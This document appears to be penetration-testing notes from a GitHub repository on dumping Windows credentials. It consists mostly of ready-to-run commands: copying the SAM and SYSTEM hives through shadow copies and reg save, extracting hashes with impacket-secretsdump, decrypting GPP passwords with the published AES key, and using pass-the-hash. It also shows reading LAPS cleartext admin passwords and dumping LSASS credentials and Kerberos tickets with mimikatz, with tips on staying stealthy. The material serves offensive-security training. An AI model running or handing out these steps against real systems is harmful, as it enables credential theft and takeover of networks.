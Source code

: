 **DUMPING THE SAM:**

In order to dump the SAM, which stores the NTLM hashes for the local users on the machine we must first obtain a copy of the SAM and SYSTEM. Although the SAM is stored here "c:\Windows\System32\config\sam"
we cannot copy it directly, since it forms part of a running process. Additionally the SYSTEM has an exclusive lock.

1st method(create a shadow volume of the local hard drive with vssadmin): 

```
1. wmic shadowcopy call create Volume='C:\'
2. vssadmin list shadows
3. copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\trike\Downloads\sam
4. copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\trike\Downloads\system
```

2nd Method(extracting the SAM and the SYSTEM from registry hives):

```
1. reg save HKLM\sam C:\users\trike\Downloads\sam
2. reg save HKLM\system C:\users\trike\Downloads\system
```
To dump the contents of the SAM, my preferred method(although there are others) is using impacket-secretsdump:

```
~# impacket-secretsdump -sam sam -system system local
```

**GROUP POLICY PREFERENCES(GPP):**

The passwords are encrypted using AES-256, however microsoft published this AES-256 key. As a solution, the MS14-025 security update removed the ability to create GPP containing passwords. Altough the ability
to create new GPP was removed, the existing GPP weren't deleted, so some of them may still exist in the wild.
Manual dump:

```
1. Get a copy of the password in base64, the GPP are stored in this SMB share: \\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\   additionally the GPP must be accessible to all domain users
2. echo 'password_in_base64' | base64 -d | openssl enc -d -aes-256-cbc -K 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b -iv 0000000000000000
```

Automated dump with [Get-GPPPassword](https://github.com/SecureAuthCorp/impacket/blob/master/examples/Get-GPPPassword.py):

```
# with a NULL session
Get-GPPPassword.py -no-pass 'DOMAIN_CONTROLLER'

# with cleartext credentials
Get-GPPPassword.py 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'

# pass-the-hash
Get-GPPPassword.py -hashes 'LMhash':'NThash' 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'
```

**LAPS(Local Administtrator Password Solution):**

LAPS offered a secure and scalable way of remotely managing the local administrator password for domain-joined computers.

Dumping it using a powershell script [LAPSToolKit](https://github.com/leoloobeek/LAPSToolkit):

```
PS C:\> Import-Module .\LAPSToolkit.ps1

PS C:\> Get-LAPSComputers  -> to list all computers that are set up with LAPS

PS C:\> Find-LAPSDelegatedGroups  -> list groups that can read LAPS

PS C:\> Get-LAPSComputers  -> if we are logged in as a user that can read LAPS, it will retrun us with a cleartext password for the "Administrator" account of a computer.
```
(All this information can be retrieved using SharpHound and viewed with BloodHound)

**LSASS(Local Security Authority Subsytem Service):**

Since Microsoft’s implementation of Kerberos makes use of single sign-on, password hashes must be stored somewhere in order to renew a TGT request. In current versions of Windows, these hashes are stored in the Local Security Authority Subsystem Service (LSASS) memory space.

However, since LSASS runs as SYSTEM, we need admin privileiges in order to access its memory space.

1st method(using mimikatz, the commands here are meant to be thrown froma mimikatz shell):

```
To dump credentials:
1. privilege::debug
2. sekurlsa::logonpasswords

To dump TGT and TGS:
1. sekurlsa::tickets
2. sekurlsa::tickets /export
3. kerberos::ptt ticket.kirbi
```
(If you want to be stealthier, you can use [Invoke-Mimikatz](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)).

2nd method(using [MiniDump.cs](https://github.com/trike33/PEN-300-Code-Snippets/blob/main/Windows%20Credentials/MiniDump.cs)):

Using this method we will create a dump file, which is a snapshot of a given process.

```
C:\minidump.exe c:\windows\tasks\lsass.dmp
```
(Then you can parse this dump file with mimikatz from a computer with matching OS and architecture, as the computer where the dump file was created)

```
#From a mimikatz shell(note that this doesn't require debug privileges)
1. sekurlsa::minidump lsass.dmp
2. sekurlsa::logonpasswords
